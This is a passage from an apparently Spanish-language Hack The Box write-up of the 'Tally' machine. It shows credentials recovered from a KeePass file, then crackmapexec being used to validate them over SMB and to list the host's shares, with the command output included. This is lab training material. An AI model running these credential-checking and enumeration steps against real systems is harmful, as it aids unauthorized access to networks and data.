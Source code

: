 Contamos con la contraseña del archivo `tim.kdbx`, asi que vamos a ver su contenido.

![](/assets/images/htb-tally/tally-keepass1.png)

![](/assets/images/htb-tally/tally-keepass2.png)

Tenemos unas nuevas credenciales, así que primeramente las guardamos. Ahora podríamos tratar de validarlas dentro del servicio SMB:

```bash
❯ crackmapexec smb 10.10.10.59 -u 'Finance' -p 'Acc0unting'
SMB         10.10.10.59     445    TALLY            [*] Windows Server 2016 Standard 14393 x64 (name:TALLY) (domain:TALLY) (signing:False) (SMBv1:True)
SMB         10.10.10.59     445    TALLY            [+] TALLY\Finance:Acc0unting
```

Contamos con credenciales válidas de acceso al servicio SMB, pero como no nos pone un `Pwn3d`, no podemos ejecutar comandos. Vamos por SMB para ver que podemos encontrar:

```bash
❯ crackmapexec smb 10.10.10.59 -u 'Finance' -p 'Acc0unting' --shares
SMB         10.10.10.59     445    TALLY            [*] Windows Server 2016 Standard 14393 x64 (name:TALLY) (domain:TALLY) (signing:False) (SMBv1:True)
SMB         10.10.10.59     445    TALLY            [+] TALLY\Finance:Acc0unting 
SMB         10.10.10.59     445    TALLY            [+] Enumerated shares
SMB         10.10.10.59     445    TALLY            Share           Permissions     Remark
SMB         10.10.10.59     445    TALLY            -----           -----------     ------
SMB         10.10.10.59     445    TALLY            ACCT            READ            
SMB         10.10.10.59     445    TALLY            ADMIN$                          Remote Admin
SMB         10.10.10.59     445    TALLY            C$                              Default share
SMB         10.10.10.59     445    TALLY            IPC$                            Remote IPC
```
